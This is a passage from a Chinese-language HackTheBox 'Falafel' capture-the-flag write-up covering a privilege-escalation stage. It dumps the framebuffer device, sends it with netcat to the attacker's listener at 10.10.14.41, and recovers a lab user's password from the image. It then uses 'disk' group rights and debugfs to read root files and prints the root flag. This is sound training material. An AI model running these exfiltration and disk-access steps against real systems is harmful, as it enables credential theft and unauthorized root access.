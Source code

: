 
dev是设备。详细可参见kali的官方手册

有趣的是...我们可以访问帧缓冲设备/ dev / fb0。我们可以使用`https://github.com/AndrewFromMelbourne/fb2png`之类的工具将其转换为png图片，也可以执行以下操作：


`cat /dev/fb0 > fb0.data`

传回kali
`root@xk-33-000803:~/HackTheBox/Falafel_73# nc -nvlp 1338 > fb0.data`

![]({{ site.url }}/assets/Falafel_73.assets/20201117102907136_820008345.png)

`moshe@falafel:~$ nc 10.10.14.41 1338 < fb0.data`

![]({{ site.url }}/assets/Falafel_73.assets/20201117102924473_1477691616.png)



打开Gimp。在打开的对话框中，选择文件以及文件类型Raw image data：

![]({{ site.url }}/assets/Falafel_73.assets/20201117102939305_2062096204.png)

在下一个对话框中，输入屏幕分辨率，然后尝试不同，Image Type直到看起来不错（RGB565看起来最好）：

![]({{ site.url }}/assets/Falafel_73.assets/20201117102953496_1559805342.png)

然后将其导出为png：

![]({{ site.url }}/assets/Falafel_73.assets/20201117103002815_1315504065.png)

碰巧上面有yossi的密码。
`yossi:MoshePlzStopHackingMe!`

![]({{ site.url }}/assets/Falafel_73.assets/20201117103023172_1332674590.png)

`id`

![]({{ site.url }}/assets/Falafel_73.assets/20201117103038884_7395920.png)

Debian的Wiki讲述了“disk”组

disk：对磁盘的原始访问。主要等同于root访问。 安全隐患 组磁盘可能非常危险，因为/ dev / sd *和/ dev / hd *中的硬盘驱动器可以绕过任何文件系统和任何分区进行读写，从而允许普通用户公开，更改和销毁分区以及没有root特权的此类驱动器的数据。用户永远不应属于该组。

我们可以使用debugfs命令读取所有内容，使用dd命令写入任何位置。
如果只是需要密钥则。。。。

![]({{ site.url }}/assets/Falafel_73.assets/20201117103110377_1896659561.png)

23b79200448c62ffd6f8f2091c001fa1



以下扩展一些其他操作

使用debugfs读取/root/.ssh/authorized_keys：

